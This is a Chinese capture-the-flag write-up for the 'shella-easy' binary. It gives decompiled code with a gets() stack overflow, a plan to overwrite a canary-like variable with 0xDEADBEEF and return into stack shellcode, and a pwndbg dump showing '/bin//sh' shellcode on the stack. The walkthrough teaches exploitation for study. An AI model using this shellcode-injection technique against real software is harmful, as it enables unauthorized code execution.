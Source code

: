 ```plaintext
λ ~/ ./shella-easy
Yeah I'll have a 0xffe6f1b0 with a side of fries thanks
no way
```

伪代码：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[64]; // [esp+0h] [ebp-48h] BYREF
  int v5; // [esp+40h] [ebp-8h]

  setvbuf(stdout, 0, 2, 0x14u);
  setvbuf(stdin, 0, 2, 0x14u);
  v5 = 0xCAFEBABE;
  printf("Yeah I'll have a %p with a side of fries thanks\n", s);
  gets(s);
  if ( v5 != 0xDEADBEEF )
    exit(0);
  return 0;
}
```

一眼出：溢出 `s`，覆盖返回地址到 `s` 中保存的 shellcode，并且覆盖 `v5` 为 `0xDEADBEEF` 以让程序正常返回。

溢出 `s` 并覆盖 `v5` 很简单，我们看看怎么覆盖返回地址：

```plaintext
Breakpoint 1 at 0x804855a
Breakpoint 2 at 0x8048541

Breakpoint 2, 0x08048541 in main ()
------- tip of the day (disable with set show-tips off) -------
Use GDB's pi command to run an interactive Python console where you can use Pwndbg APIs like pwndbg.gdblib.memory.read(addr, len), pwndbg.gdblib.memory.write(addr, data), pwndbg.gdb.vmmap.get() and so on!
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
──────────────[ REGISTERS / show-flags off / show-compact-regs off ]──────────────
*EAX  0xff8d7200 ◂— 0x2f68686a ('jhh/')
*EBX  0x804a000 (_GLOBAL_OFFSET_TABLE_) —▸ 0x8049f0c (_DYNAMIC) ◂— 0x1
*ECX  0xf67138ac ◂— 0x0
*EDX  0x0
*EDI  0xf677bb60 (_rtld_global_ro) ◂— 0x0
*ESI  0x8048560 (__libc_csu_init) ◂— push ebp
*EBP  0xff8d7248 ◂— 0x0
*ESP  0xff8d7200 ◂— 0x2f68686a ('jhh/')
*EIP  0x8048541 (main+102) ◂— cmp dword ptr [ebp - 8], 0deadbeefh
────────────────────────[ DISASM / i386 / set emulate on ]────────────────────────
 ► 0x8048541  <main+102>    cmp    dword ptr [ebp - 8], 0deadbeefh
   0x8048548  <main+109>    je     8048551h                      <main+118>
    ↓
   0x8048551  <main+118>    mov    eax, 0
   0x8048556  <main+123>    mov    ebx, dword ptr [ebp - 4]
   0x8048559  <main+126>    leave
   0x804855a  <main+127>    ret
    ↓
   0xf6503bd7               add    esp, 10h
   0xf6503bda               sub    esp, 0ch
   0xf6503bdd               push   eax
   0xf6503bde               call   0f651e590h                    <exit>

   0xf6503be3               call   0f6570d20h                    <0xf6570d20>
────────────────────────────────────[ STACK ]─────────────────────────────────────
00:0000│ eax esp 0xff8d7200 ◂— 0x2f68686a ('jhh/')
01:0004│-044     0xff8d7204 ◂— 0x68732f2f ('//sh')
```